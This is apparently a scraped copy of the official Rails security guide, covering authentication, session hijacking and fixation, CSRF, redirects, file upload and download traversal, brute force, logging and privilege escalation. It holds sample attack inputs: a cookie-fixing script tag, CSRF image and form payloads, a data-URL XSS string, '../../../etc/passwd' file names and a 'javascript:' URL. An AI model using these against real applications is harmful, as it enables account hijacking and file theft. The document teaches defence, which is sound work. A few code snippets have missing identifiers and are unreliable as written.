

DO NOT READ THIS FILE ON GITHUB, GUIDES ARE PUBLISHED ON https://guides.rubyonrails.org.
Securing Rails Applications
This guide describes common security problems in web applications and how to avoid them with Rails.
After reading this guide, you will know:
- How to use the built-in authentication generator.
- All countermeasures that are highlighted.
- The concept of sessions in
Rails, what to put in there and popular attack methods. - How just visiting a site can be a security problem (with CSRF).
- What you have to pay attention to when working with files or providing an administration interface.
- How to manage users: Logging in and out and attack methods on all layers.
- And the most popular injection attack methods.
Introduction
Web application frameworks are made to help developers build web applications. Some of them also help you with securing the web application. In fact one framework is not more secure than another: If you use it correctly, you will be able to build secure apps with many frameworks. Ruby on Rails has some clever helper methods, for example against SQL injection, so this is hardly a problem.
In general there is no such thing as plug-n-play security. Security depends on the people using the framework, and sometimes on the development method. And it depends on all layers of a web application environment: The back-end storage, the web server, and the web application itself (and possibly other layers or applications).
The Gartner Group, however, estimates that 75% of attacks are at the web application layer, and found out "that out of 300 audited sites, 97% are vulnerable to attack". This is because web applications are relatively easy to attack, as they are simple to understand and manipulate, even by the lay person.
The threats against web applications include user account hijacking, bypass of access control, reading or modifying sensitive data, or presenting fraudulent content. Or an attacker might be able to install a Trojan horse program or unsolicited e-mail sending software, aim at financial enrichment, or cause brand name damage by modifying company resources. In order to prevent attacks, minimize their impact and remove points of attack, first of all, you have to fully understand the attack methods in order to find the correct countermeasures. That is what this guide aims at.
In order to develop secure web applications you have to keep up to date on all layers and know your enemies. To keep up to date subscribe to security mailing lists, read security blogs, and make updating and security checks a habit (check the Additional Resources chapter). It is done manually because that's how you find the nasty logical security problems.
Authentication
Authentication is often one of the first features implemented in a web application. It serves as the foundation for securing user data and is part of most modern web applications.
Starting with version 8.0, Rails comes with a default authentication generator,
which provides a solid starting point for securing your application by only
allowing access to verified users.
The authentication generator adds all of the relevant models, controllers, views, routes, and migrations needed for basic authentication and password reset functionality.
To use this feature in your application, you can run bin/rails generate
authentication. Here are all of the files the generator modifies and new files
it adds:
$ bin/rails generate authentication
invoke erb
create app/views/passwords/new.html.erb
create app/views/passwords/edit.html.erb
create app/views/sessions/new.html.erb
create app/models/session.rb
create app/models/user.rb
create app/models/current.rb
create app/controllers/sessions_controller.rb
create app/controllers/concerns/authentication.rb
create app/controllers/passwords_controller.rb
create app/mailers/passwords_mailer.rb
create app/views/passwords_mailer/reset.html.erb
create app/views/passwords_mailer/reset.text.erb
create test/mailers/previews/passwords_mailer_preview.rb
gsub app/controllers/application_controller.rb
route resources :passwords, param: :token
route resource :session
gsub Gemfile
bundle install --quiet
generate migration CreateUsers email_address:string!:uniq password_digest:string! --force
rails generate migration CreateUsers email_address:string!:uniq password_digest:string! --force
invoke active_record
create db/migrate/20241010215312_create_users.rb
generate migration CreateSessions user:references ip_address:string user_agent:string --force
rails generate migration CreateSessions user:references ip_address:string user_agent:string --force
invoke active_record
create db/migrate/20241010215314_create_sessions.rb
As shown above, the authentication generator modifies the Gemfile to add the
bcrypt gem. The generator uses
the bcrypt gem to create a hash of the password, which is then stored in the
database (instead of the plain-text password). As this process is not
reversible, there's no way to go from the hash back to the password. The hashing
algorithm is deterministic though, so the stored password is able to be compared
with the hash of the user-inputted password during authentication.
The generator adds two migration files for creating user and session tables.
Next step is to run the migrations:
$ bin/rails db:migrate
Then, if you visit /session/new in your browser (you will see this route has
been added in routes.rb), you'll see a form that accepts an email and a
password with "sign in" button. This form routes to the SessionsController
which was added by the generator. If you provide an email/password for a user
that exists in the database, you will be able to successfully authenticate with
those credentials and log in to the application.
NOTE: After running the Authentication generator, you do need to implement your
own sign up flow and add the necessary views, routes, and controller actions.
There is no code generated that creates new user records and allows users to
"sign up" in the first place. This is something you'll need to wire up based on
the requirements of your application.
Here is a list of modified files:
On branch main
Changes not staged for commit:
(use "git add <file>..." to update what will be committed)
(use "git restore <file>..." to discard changes in working directory)
modified: Gemfile
modified: Gemfile.lock
modified: app/controllers/application_controller.rb
modified: config/routes.rb
Untracked files:
(use "git add <file>..." to include in what will be committed)
app/controllers/concerns/authentication.rb
app/controllers/passwords_controller.rb
app/controllers/sessions_controller.rb
app/mailers/passwords_mailer.rb
app/models/current.rb
app/models/session.rb
app/models/user.rb
app/views/passwords/
app/views/passwords_mailer/
app/views/sessions/
db/migrate/
db/schema.rb
test/mailers/previews/
Reset Password
The authentication generator also adds reset password functionality. You can see
a "forgot password?" link on the "sign in" page. Clicking that link navigates to
the /passwords/new path and routes to the passwords controller. The new
method of the PasswordsController class runs through the flow for sending a
password reset email.
The link is valid for 15 minutes by default, but this can be configured with
has_secure_password.
The mailers for reset password are also set up by the generator at
app/mailers/password_mailer.rb and render the following email to send to the
user:
# app/views/passwords_mailer/reset.html.erb
<p>
You can reset your password within the next 15 minutes on
<%= link_to "this password reset page", edit_password_url(@user.password_reset_token) %>.
</p>
Implementation Details
This section covers some of the implementation details around the authentication
flow added by the authentication generator: The has_secure_password method,
the authenticate_by method, and the Authentication concern.
has_secure_password
The
has_secure_password
method is added to the user model and takes care of storing a hashed password
using the bcrypt algorithm:
class User < ApplicationRecord
has_secure_password
has_many :sessions, dependent: :destroy
normalizes :email_address, with: -> e { e.strip.downcase }
endNOTE: has_secure_password adds the following validations automatically:
- Password must be present on creation
- Password length should be less than or equal to 72 bytes
- Confirmation of password (using a XXX_confirmation attribute)
However it doesn't validate the minimum length or the complexity of the password, you need to define validation for those yourself.
authenticate_by
The
authenticate_by
method is used in the SessionsController while creating a new session to
validate that the credentials provided by the user match the credentials stored
in the database (e.g. password) for that user:
class SessionsController < ApplicationController
def create
if user = User.authenticate_by(params.permit(:email_address, :password))
start_new_session_for user
redirect_to after_authentication_url
else
redirect_to new_session_url, alert: "Try another email address or password."
end
end
# ...
endIf the credentials are valid, a new Session is created for that user.
Session Management
The core functionality around session management is implemented in the
Authentication controller concern, which is included by the
ApplicationController in your application. You can explore details of the
authentication
concern
in the source code.
One method to note in the Authentication concern is authenticated?, a helper
method available in view templates. You can use this method to conditionally
display links/buttons depending on whether a user is currently authenticated.
For example:
<% if authenticated? %>
<%= button_to "Sign Out", session_path, method: :delete %>
<% else %>
<%= link_to "Sign In", new_session_path %>
<% end %>
TIP: You can find all of the details for the Authentication generator in the Rails source code. You are encouraged to explore the implementation details and not treat authentication as a black box.
With the authentication generator configured as above, your application is ready for a more secure user authentication and password recovery process in just a few steps.
Sessions
This chapter describes some particular attacks related to sessions, and security measures to protect your session data.
What are Sessions?
INFO: Sessions enable the application to maintain user-specific state, while users interact with the application. For example, sessions allow users to authenticate once and remain signed in for future requests.
Most applications need to keep track of state for users that interact with the application. This could be the contents of a shopping basket, or the user id of the currently logged in user. This kind of user-specific state can be stored in the session.
Rails provides a session object for each user that accesses the application. If the user already has an active session, Rails uses the existing session. Otherwise a new session is created.
NOTE: Read more about sessions and how to use them in Action Controller Overview Guide.
Session Hijacking
WARNING: Stealing a user's session ID lets an attacker use the web application in the victim's name.
Many web applications have an authentication system: a user provides a username and password, the web application checks them and stores the corresponding user id in the session hash. From now on, the session is valid. On every request the application will load the user, identified by the user id in the session, without the need for new authentication. The session ID in the cookie identifies the session.
Hence, the cookie serves as temporary authentication for the web application. Anyone who seizes a cookie from someone else, may use the web application as this user - with possibly severe consequences. Here are some ways to hijack a session, and their countermeasures:
Sniff the cookie in an insecure network. A wireless LAN can be an example of such a network. In an unencrypted wireless LAN, it is especially easy to listen to the traffic of all connected clients. For the web application builder this means to provide a secure connection over SSL. In Rails 3.1 and later, this could be accomplished by always forcing SSL connection in your application config file:
config.force_ssl = trueMost people don't clear out the cookies after working at a public terminal. So if the last user didn't log out of a web application, you would be able to use it as this user. Provide the user with a log-out button in the web application, and make it prominent.
Many cross-site scripting (XSS) exploits aim at obtaining the user's cookie. You'll read more about XSS later.
Instead of stealing a cookie unknown to the attacker, they fix a user's session identifier (in the cookie) known to them. Read more about this so-called session fixation later.
Session Storage
NOTE: Rails uses ::ActionDispatch::Session::CookieStore as the default session storage.
TIP: Learn more about other session storages in Action Controller Overview Guide.
Rails CookieStore saves the session hash in a cookie on the client-side.
The server retrieves the session hash from the cookie and
eliminates the need for a session ID. That will greatly increase the
speed of the application, but it is a controversial storage option and
you have to think about the security implications and storage
limitations of it:
Cookies have a size limit of 4 kB. Use cookies only for data which is relevant for the session.
Cookies are stored on the client-side. The client may preserve cookie contents even for expired cookies. The client may copy cookies to other machines. Avoid storing sensitive data in cookies.
Cookies are temporary by nature. The server can set expiration time for the cookie, but the client may delete the cookie and its contents before that. Persist all data that is of more permanent nature on the server side.
Session cookies do not invalidate themselves and can be maliciously reused. It may be a good idea to have your application invalidate old session cookies using a stored timestamp.
Rails encrypts cookies by default. The client cannot read or edit the contents of the cookie, without breaking encryption. If you take appropriate care of your secrets, you can consider your cookies to be generally secured.
The CookieStore uses the
encrypted
cookie jar to provide a secure, encrypted location to store session
data. Cookie-based sessions thus provide both integrity as well as
confidentiality to their contents. The encryption key, as well as the
verification key used for
signed
cookies, is derived from the secret_key_base configuration value.
TIP: Secrets must be long and random. Use bin/rails secret to get new unique secrets.
INFO: Learn more about managing credentials later in this guide
It is also important to use different salt values for encrypted and signed cookies. Using the same value for different salt configuration values may lead to the same derived key being used for different security features which in turn may weaken the strength of the key.
In test and development applications get a secret_key_base derived from the app name. Other environments must use a random key present in config/credentials.yml.enc, shown here in its decrypted state:
secret_key_base: 492f...
WARNING: If your application's secrets may have been exposed, strongly consider changing them. Note that changing secret_key_base will expire currently active sessions and require all users to log in again. In addition to session data: encrypted cookies, signed cookies, and Active Storage files may also be affected.
Rotating Encrypted and Signed Cookies Configurations
Rotation is ideal for changing cookie configurations and ensuring old cookies aren't immediately invalid. Your users then have a chance to visit your site, get their cookie read with an old configuration and have it rewritten with the new change. The rotation can then be removed once you're comfortable enough users have had their chance to get their cookies upgraded.
It's possible to rotate the ciphers and digests used for encrypted and signed cookies.
For instance to change the digest used for signed cookies from SHA1 to SHA256, you would first assign the new configuration value:
Rails.application.config.action_dispatch. = "SHA256"Now add a rotation for the old SHA1 digest so existing cookies are seamlessly upgraded to the new SHA256 digest.
Rails.application.config.action_dispatch..tap do ||
.rotate :signed, digest: "SHA1"
endThen any written signed cookies will be digested with SHA256. Old cookies that were written with SHA1 can still be read, and if accessed will be written with the new digest so they're upgraded and won't be invalid when you remove the rotation.
Once users with SHA1 digested signed cookies should no longer have a chance to have their cookies rewritten, remove the rotation.
While you can set up as many rotations as you'd like it's not common to have many rotations going at any one time.
For more details on key rotation with encrypted and signed messages as
well as the various options the rotate method accepts, please refer to
the
MessageEncryptor API
and
MessageVerifier API
documentation.
Replay Attacks for CookieStore Sessions
TIP: Another sort of attack you have to be aware of when using CookieStore is the replay attack.
It works like this:
- A user receives credits, the amount is stored in a session (which is a bad idea anyway, but we'll do this for demonstration purposes).
- The user buys something.
- The new adjusted credit value is stored in the session.
- The user takes the cookie from the first step (which they previously copied) and replaces the current cookie in the browser.
- The user has their original credit back.
Including a nonce (a random value) in the session solves replay attacks. A nonce is valid only once, and the server has to keep track of all the valid nonces. It gets even more complicated if you have several application servers. Storing nonces in a database table would defeat the entire purpose of CookieStore (avoiding accessing the database).
The best solution against it is not to store this kind of data in a session, but in the database. In this case store the credit in the database and the logged_in_user_id in the session.
Session Fixation
NOTE: Apart from stealing a user's session ID, the attacker may fix a session ID known to them. This is called session fixation.

This attack focuses on fixing a user's session ID known to the attacker, and forcing the user's browser into using this ID. It is therefore not necessary for the attacker to steal the session ID afterwards. Here is how this attack works:
- The attacker creates a valid session ID: They load the login page of the web application where they want to fix the session, and take the session ID in the cookie from the response (see numbers 1 and 2 in the image).
- They maintain the session by accessing the web application periodically in order to keep an expiring session alive.
- The attacker forces the user's browser into using this session ID (see number 3 in the image). As you may not change a cookie of another domain (because of the same origin policy), the attacker has to run a JavaScript from the domain of the target web application. Injecting the JavaScript code into the application by XSS accomplishes this attack. Here is an example:
<script>document.cookie="_session_id=16d5b78abb28e3d6206b60f22a03c8d9";</script>. Read more about XSS and injection later on. - The attacker lures the victim to the infected page with the JavaScript code. By viewing the page, the victim's browser will change the session ID to the trap session ID.
- As the new trap session is unused, the web application will require the user to authenticate.
- From now on, the victim and the attacker will co-use the web application with the same session: The session became valid and the victim didn't notice the attack.
Session Fixation - Countermeasures
TIP: One line of code will protect you from session fixation.
The most effective countermeasure is to issue a new session identifier and declare the old one invalid after a successful login. That way, an attacker cannot use the fixed session identifier. This is a good countermeasure against session hijacking, as well. Here is how to create a new session in Rails:
reset_sessionIf you use the popular Devise gem for user management, it will automatically expire sessions on sign in and sign out for you. If you roll your own, remember to expire the session after your sign in action (when the session is created). This will remove values from the session, therefore you will have to transfer them to the new session.
Another countermeasure is to save user-specific properties in the session, verify them every time a request comes in, and deny access, if the information does not match. Such properties could be the remote IP address or the user agent (the web browser name), though the latter is less user-specific. When saving the IP address, you have to bear in mind that there are Internet service providers or large organizations that put their users behind proxies. These might change over the course of a session, so these users will not be able to use your application, or only in a limited way.
Session Expiry
NOTE: Sessions that never expire extend the time-frame for attacks such as cross-site request forgery (CSRF), session hijacking, and session fixation.
One possibility is to set the expiry time-stamp of the cookie with the session ID. However the client can edit cookies that are stored in the web browser so expiring sessions on the server is safer. Here is an example of how to expire sessions in a database table. Call Session.sweep(20.minutes) to expire sessions that were used longer than 20 minutes ago.
class Session < ApplicationRecord
def self.sweep(time = 1.hour)
where(updated_at: ...time.ago).delete_all
end
endThe section about session fixation introduced the problem of maintained sessions. An attacker maintaining a session every five minutes can keep the session alive forever, although you are expiring sessions. A simple solution for this would be to add a created_at column to the sessions table. Now you can delete sessions that were created a long time ago. Use this line in the sweep method above:
where(updated_at: ...time.ago).or(where(created_at: ...2.days.ago)).delete_allCross-Site Request Forgery (CSRF)
This attack method works by including malicious code or a link in a page that accesses a web application that the user is believed to have authenticated. If the session for that web application has not timed out, an attacker may execute unauthorized commands.

In the session chapter you have learned that most Rails applications use cookie-based sessions. Either they store the session ID in the cookie and have a server-side session hash, or the entire session hash is on the client-side. In either case the browser will automatically send along the cookie on every request to a domain, if it can find a cookie for that domain. The controversial point is that if the request comes from a site of a different domain, it will also send the cookie. Let's start with an example:
- Bob browses a message board and views a post from a hacker where there is a crafted HTML image element. The element references a command in Bob's project management application, rather than an image file:
<img src="http://www.webapp.com/project/1/destroy"> - Bob's session at
www.webapp.comis still alive, because he didn't log out a few minutes ago. - By viewing the post, the browser finds an image tag. It tries to load the suspected image from
www.webapp.com. As explained before, it will also send along the cookie with the valid session ID. - The web application at
www.webapp.comverifies the user information in the corresponding session hash and destroys the project with the ID 1. It then returns a result page which is an unexpected result for the browser, so it will not display the image. - Bob doesn't notice the attack - but a few days later he finds out that project number one is gone.
It is important to notice that the actual crafted image or link doesn't necessarily have to be situated in the web application's domain, it can be anywhere - in a forum, blog post, or email.
CSRF appears very rarely in CVE (Common Vulnerabilities and Exposures) - less than 0.1% in 2006 - but it really is a 'sleeping giant' [Grossman]. This is in stark contrast to the results in many security contract works - CSRF is an important security issue.
CSRF Countermeasures
NOTE: First, as is required by the W3C, use GET and POST appropriately. Secondly, a security token in non-GET requests will protect your application from CSRF.
Use GET and POST Appropriately
The HTTP protocol basically provides two main types of requests - GET and POST (DELETE, PUT, and PATCH should be used like POST). The World Wide Web Consortium (W3C) provides a checklist for choosing HTTP GET or POST:
Use GET if:
- The interaction is more like a question (i.e., it is a safe operation such as a query, read operation, or lookup).
Use POST if:
- The interaction is more like an order, or
- The interaction changes the state of the resource in a way that the user would perceive (e.g., a subscription to a service), or
- The user is held accountable for the results of the interaction.
If your web application is RESTful, you might be used to additional HTTP verbs, such as PATCH, PUT, or DELETE. Some legacy web browsers, however, do not support them - only GET and POST. Rails uses a hidden _method field to handle these cases.
POST requests can be sent automatically, too. In this example, the link www.harmless.com is shown as the destination in the browser's status bar. But it has actually dynamically created a new form that sends a POST request.
<a href="http://www.harmless.com/" onclick="
var f = document.createElement('form');
f.style.display = 'none';
this.parentNode.appendChild(f);
f.method = 'POST';
f.action = 'http://www.example.com/account/destroy';
f.submit();
return false;">To the harmless survey</a>
Or the attacker places the code into the onmouseover event handler of an image:
<img src="http://www.harmless.com/img" width="400" height="400" onmouseover="..." />
There are many other possibilities, like using a <script> tag to make a cross-site request to a URL with a JSONP or JavaScript response. The response is executable code that the attacker can find a way to run, possibly extracting sensitive data. To protect against this data leakage, we must disallow cross-site <script> tags. Ajax requests, however, obey the browser's same-origin policy (only your own site is allowed to initiate XmlHttpRequest) so we can safely allow them to return JavaScript responses.
NOTE: We can't distinguish a <script> tag's origin—whether it's a tag on your own site or on some other malicious site—so we must block all <script> across the board, even if it's actually a safe same-origin script served from your own site. In these cases, explicitly skip CSRF protection on actions that serve JavaScript meant for a <script> tag.
Required Security Token
To protect against all other forged requests, we introduce a required security token that our site knows but other sites don't know. We include the security token in requests and verify it on the server. This is done automatically when config.action_controller.default_protect_from_forgery is set to true, which is the default for newly created Rails applications. You can also do it manually by adding the following to your application controller:
protect_from_forgery with: :exceptionThis will include a security token in all forms generated by Rails. If the security token doesn't match what was expected, an exception will be thrown.
When submitting forms with Turbo the security
token is required as well. Turbo looks for the token in the csrf meta tags of
your application layout and adds it to request in the X-CSRF-Token request
header. These meta tags are created with the csrf_meta_tags helper
method:
<head>
<%= csrf_meta_tags %>
</head>
which results in:
<head>
<meta name="csrf-param" content="authenticity_token" />
<meta name="csrf-token" content="THE-TOKEN" />
</head>
When making your own non-GET requests from JavaScript the security token is required as well. Rails Request.JS is a JavaScript library that encapsulates the logic of adding the required request headers.
When using another library to make Ajax calls, it is necessary to add the security token as a default header yourself. To get the token from the meta tag you could do something like:
document.head.querySelector("meta[name=csrf-token]")?.content
Clearing Persistent Cookies
It is common to use persistent cookies to store user information, with cookies.permanent for example. In this case, the cookies will not be cleared and the out of the box CSRF protection will not be effective. If you are using a different cookie store than the session for this information, you must handle what to do with it yourself:
rescue_from ActionController::InvalidCrossOriginRequest do |exception|
sign_out_user # Example method that will destroy the user cookies
endThe above method can be placed in the ApplicationController and will be called when a CSRF token is not present or is incorrect on a non-GET request.
Note that cross-site scripting (XSS) vulnerabilities bypass all CSRF protections. XSS gives the attacker access to all elements on a page, so they can read the CSRF security token from a form or directly submit the form. Read more about XSS later.
Redirection and Files
Another class of security vulnerabilities surrounds the use of redirection and files in web applications.
Redirection
WARNING: Redirection in a web application is an underestimated cracker tool: Not only can the attacker forward the user to a trap website, they may also create a self-contained attack.
Whenever the user is allowed to pass (parts of) the URL for redirection, it is possibly vulnerable. The most obvious attack would be to redirect users to a fake web application which looks and feels exactly as the original one. This so-called phishing attack works by sending an unsuspicious link in an email to the users, injecting the link by XSS in the web application or putting the link into an external site. It is unsuspicious, because the link starts with the URL to the web application and the URL to the malicious site is hidden in the redirection parameter: http://www.example.com/site/redirect?to=www.attacker.com. Here is an example of a legacy action:
def legacy
redirect_to(params.update(action: "main"))
endThis will redirect the user to the main action if they try to access a legacy action. The intention was to preserve the URL parameters to the legacy action and pass them to the main action. However, it can be exploited by an attacker if they include a host key in the URL:
http://www.example.com/site/legacy?param1=xy¶m2=23&host=www.attacker.comIf it is at the end of the URL it will hardly be noticed and redirects the user to the attacker.com host. As a general rule, passing user input directly into redirect_to is considered dangerous. A simple countermeasure would be to include only the expected parameters in a legacy action (again a permitted list approach, as opposed to removing unexpected parameters). And if you redirect to a URL, check it with a permitted list or a regular expression.
Self-contained XSS
Another redirection and self-contained XSS attack works in Firefox and Opera by the use of the data protocol. This protocol displays its contents directly in the browser and can be anything from HTML or JavaScript to entire images:
data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K
This example is a Base64 encoded JavaScript which displays a simple message box. In a redirection URL, an attacker could redirect to this URL with the malicious code in it. As a countermeasure, do not allow the user to supply (parts of) the URL to be redirected to.
File Uploads
NOTE: Make sure file uploads don't overwrite important files, and process media files asynchronously.
Many web applications allow users to upload files. File names, which the user may choose (partly), should always be filtered as an attacker could use a malicious file name to overwrite any file on the server. If you store file uploads at /var/www/uploads, and the user enters a file name like "../../../etc/passwd", it may overwrite an important file. Of course, the Ruby interpreter would need the appropriate permissions to do so - one more reason to run web servers, database servers, and other programs as a less privileged Unix user.
When filtering user input file names, don't try to remove malicious parts. Think of a situation where the web application removes all "../" in a file name and an attacker uses a string such as "....//" - the result will be "../". It is best to use a permitted list approach, which checks for the validity of a file name with a set of accepted characters. This is opposed to a restricted list approach which attempts to remove not allowed characters. In case it isn't a valid file name, reject it (or replace not accepted characters), but don't remove them. Here is the file name sanitizer from the attachment_fu plugin:
def sanitize_filename(filename)
filename.strip.tap do |name|
# NOTE: File.basename doesn't work right with Windows paths on Unix
# get only the filename, not the whole path
name.sub!(/\A.*(\\|\/)/, "")
# Finally, replace all non-alphanumeric, underscore
# or periods with underscore
name.gsub!(/[^\w.-]/, "_")
end
endA significant disadvantage of synchronous processing of file uploads (as the attachment_fu plugin may do with images), is its vulnerability to denial-of-service attacks. An attacker can synchronously start image file uploads from many computers which increases the server load and may eventually crash or stall the server.
The solution to this is best to process media files asynchronously: Save the media file and schedule a processing request in the database. A second process will handle the processing of the file in the background.
Executable Code in File Uploads
WARNING: Source code in uploaded files may be executed when placed in specific directories. Do not place file uploads in Rails' /public directory if it is Apache's home directory.
The popular Apache web server has an option called DocumentRoot. This is the home directory of the website, everything in this directory tree will be served by the web server. If there are files with a certain file name extension, the code in it will be executed when requested (might require some options to be set). Examples for this are PHP and CGI files. Now think of a situation where an attacker uploads a file "file.cgi" with code in it, which will be executed when someone downloads the file.
If your Apache DocumentRoot points to Rails' /public directory, do not put file uploads in it, store files at least one level upwards.
File Downloads
NOTE: Make sure users cannot download arbitrary files.
Just as you have to filter file names for uploads, you have to do so for downloads. The send_file() method sends files from the server to the client. If you use a file name, that the user entered, without filtering, any file can be downloaded:
send_file("/var/www/uploads/" + params[:filename])Simply pass a file name like "../../../etc/passwd" to download the server's login information. A simple solution against this, is to check that the requested file is in the expected directory:
basename = File.("../../files", __dir__)
filename = File.(File.join(basename, @file.public_filename))
raise if basename != File.(File.dirname(filename))
send_file filename, disposition: "inline"Another (additional) approach is to store the file names in the database and name the files on the disk after the ids in the database. This is also a good approach to avoid possible code in an uploaded file from being executed. The attachment_fu plugin does this in a similar way.
User Management
Brute-Forcing Accounts
NOTE: Brute-force attacks on accounts are trial and error attacks on the login credentials. Fend them off with rate-limiting, more generic error messages and possibly require to enter a CAPTCHA.
A list of usernames for your web application may be misused to brute-force the corresponding passwords, because most people don't use sophisticated passwords. Most passwords are a combination of dictionary words and possibly numbers. So armed with a list of usernames and a dictionary, an automatic program may find the correct password in a matter of minutes.
Because of this, most web applications will display a generic error message "username or password not correct", if one of these are not correct. If it said "the username you entered has not been found", an attacker could automatically compile a list of usernames.
However, what most web application designers neglect, are the forgot-password pages. These pages often admit that the entered username or e-mail address has (not) been found. This allows an attacker to compile a list of usernames and brute-force the accounts.
In order to mitigate such attacks, you can use rate limiting. Rails comes with a built-in rate-limiter. You can enable it in your sessions controller with a single line:
class SessionsController < ApplicationController
rate_limit to: 10, within: 3.minutes, only: :create
endRefer to the API documentation for details about the various parameters.
Additionally, you can display a generic error message on forgot-password pages, too. Moreover, you can require to enter a CAPTCHA after a number of failed logins from a certain IP address.
NOTE: All of these mitigation techniques are not a bullet-proof solution against automatic programs, because these programs may change their IP address exactly as often. However, it raises the barrier of an attack.
Account Hijacking
Many web applications make it easy to hijack user accounts. Why not be different and make it more difficult?
Passwords
Think of a situation where an attacker has stolen a user's session cookie and thus may co-use the application. If it is easy to change the password, the attacker will hijack the account with a few clicks. Or if the change-password form is vulnerable to CSRF, the attacker will be able to change the victim's password by luring them to a web page where there is a crafted IMG-tag which does the CSRF. As a countermeasure, make change-password forms safe against CSRF, of course. And require the user to enter the old password when changing it.
However, the attacker may also take over the account by changing the e-mail address. After they change it, they will go to the forgotten-password page and the (possibly new) password will be mailed to the attacker's e-mail address. As a countermeasure require the user to enter the password when changing the e-mail address, too.
Other
Depending on your web application, there may be more ways to hijack the user's account. In many cases CSRF and XSS will help to do so. For example, as in a CSRF vulnerability in Google Mail. In this proof-of-concept attack, the victim would have been lured to a website controlled by the attacker. On that site is a crafted IMG-tag which results in an HTTP GET request that changes the filter settings of Google Mail. If the victim was logged in to Google Mail, the attacker would change the filters to forward all e-mails to their e-mail address. This is nearly as harmful as hijacking the entire account. As a countermeasure, review your application logic and eliminate all XSS and CSRF vulnerabilities.
CAPTCHAs
INFO: A CAPTCHA is a challenge-response test to determine that the response is not generated by a computer. It is often used to protect registration forms from attackers and comment forms from automatic spam bots by asking the user to type the letters of a distorted image. This is the positive CAPTCHA, but there is also the negative CAPTCHA. The idea of a negative CAPTCHA is not for a user to prove that they are human, but to reveal that a robot is a robot.
A popular positive CAPTCHA API is reCAPTCHA which displays two distorted images of words from old books. It also adds an angled line, rather than a distorted background and high levels of warping on the text as earlier CAPTCHAs did, because the latter were broken. As a bonus, using reCAPTCHA helps to digitize old books. ReCAPTCHA is also a Rails plug-in with the same name as the API.
You will get two keys from the API, a public and a private key, which you have to put into your Rails environment. After that you can use the recaptcha_tags method in the view, and the verify_recaptcha method in the controller. Verify_recaptcha will return false if the validation fails. The problem with CAPTCHAs is that they have a negative impact on the user experience. Additionally, some visually impaired users have found certain kinds of distorted CAPTCHAs difficult to read. Still, positive CAPTCHAs are one of the best methods to prevent all kinds of bots from submitting forms.
Most bots are really naive. They crawl the web and put their spam into every form's field they can find. Negative CAPTCHAs take advantage of that and include a "honeypot" field in the form which will be hidden from the human user by CSS or JavaScript.
Note that negative CAPTCHAs are only effective against naive bots and won't suffice to protect critical applications from targeted bots. Still, the negative and positive CAPTCHAs can be combined to increase the performance, e.g., if the "honeypot" field is not empty (bot detected), you won't need to verify the positive CAPTCHA, which would require an HTTPS request to Google ReCaptcha before computing the response.
Here are some ideas on how to hide honeypot fields by JavaScript and/or CSS:
- position the fields off the visible area of the page
- make the elements very small or color them the same as the background of the page
- leave the fields displayed, but tell humans to leave them blank
The simplest negative CAPTCHA is one hidden honeypot field. On the server side, you will check the value of the field: If it contains any text, it must be a bot. Then, you can either ignore the post or return a positive result, but not save the post to the database. This way, the bot will be satisfied and move on.
You can find more sophisticated negative CAPTCHAs in Ned Batchelder's blog post:
- Include a field with the current UTC time-stamp in it and check it on the server. If it is too far in the past, or if it is in the future, the form is invalid.
- Randomize the field names
- Include more than one honeypot field of all types, including submission buttons
Note that this protects you only from automatic bots, targeted tailor-made bots cannot be stopped by this. So negative CAPTCHAs might not be good to protect login forms.
Logging
WARNING: Tell Rails not to put passwords in the log files.
By default, Rails logs all requests being made to the web application. But log files can be a huge security issue, as they may contain login credentials, credit card numbers et cetera. When designing a web application security concept, you should also think about what will happen if an attacker gets (full) access to the web server. Encrypting secrets and passwords in the database will be quite useless, if the log files list them in clear text. You can filter certain request parameters from your log files by appending them to config.filter_parameters in the application configuration. These parameters will be marked [FILTERED] in the log.
config.filter_parameters << :passwordNOTE: Provided parameters will be filtered out by partial matching regular
expression. Rails adds a list of default filters, including :passw,
:secret, and :token, in the appropriate initializer
(initializers/filter_parameter_logging.rb) to handle typical application
parameters like password, password_confirmation and my_token.
Regular Expressions
INFO: A common pitfall in Ruby's regular expressions is to match the string's beginning and end by ^ and $, instead of \A and \z.
Ruby uses a slightly different approach than many other languages to match the end and the beginning of a string. That is why even many Ruby and Rails books get this wrong. So how is this a security threat? Say you wanted to loosely validate a URL field and you used a simple regular expression like this:
/^https?:\/\/[^\n]+$/iThis may work fine in some languages. However, in Ruby ^ and $ match the line beginning and line end. And thus a URL like this passes the filter without problems:
javascript:exploit_code();/*
http://hi.com
*/This URL passes the filter because the regular expression matches - the second line, the rest does not matter. Now imagine we had a view that showed the URL like this:
link_to "Homepage", @user.homepageThe link looks innocent to visitors, but when it's clicked, it will execute the JavaScript function "exploit_code" or any other JavaScript the attacker provides.
To fix the regular expression, \A and \z should be used instead of ^ and $, like so:
/\Ahttps?:\/\/[^\n]+\z/iSince this is a frequent mistake, the format validator (validates_format_of) now raises an exception if the provided regular expression starts with ^ or ends with $. If you do need to use ^ and $ instead of \A and \z (which is rare), you can set the :multiline option to true, like so:
# content should include a line "Meanwhile" anywhere in the string
validates :content, format: { with: /^Meanwhile$/, multiline: true }Note that this only protects you against the most common mistake when using the format validator - you always need to keep in mind that ^ and $ match the line beginning and line end in Ruby, and not the beginning and end of a string.
Privilege Escalation
WARNING: Changing a single parameter may give the user unauthorized access. Remember that every parameter may be changed, no matter how much you hide or obfuscate it.
The most common parameter that a user might tamper with, is the id parameter, as in http://www.domain.com/project/1, whereas 1 is the id. It will be available in params in the controller. There, you will most likely do something like this:
@project = Project.find(params[:id])This is alright for some web applications, but certainly not if the user is not authorized to view all projects. If the user changes the id to 42, and they are not allowed to see that information, they will have access to it anyway. Instead, query the user's access rights, too:
@project = @current_user.projects.find(params[:id])Depending on your web application, there will be many more parameters the user can tamper with. As a rule of thumb, no user input data is secure, until proven otherwise, and every parameter from the user is potentially manipulated.
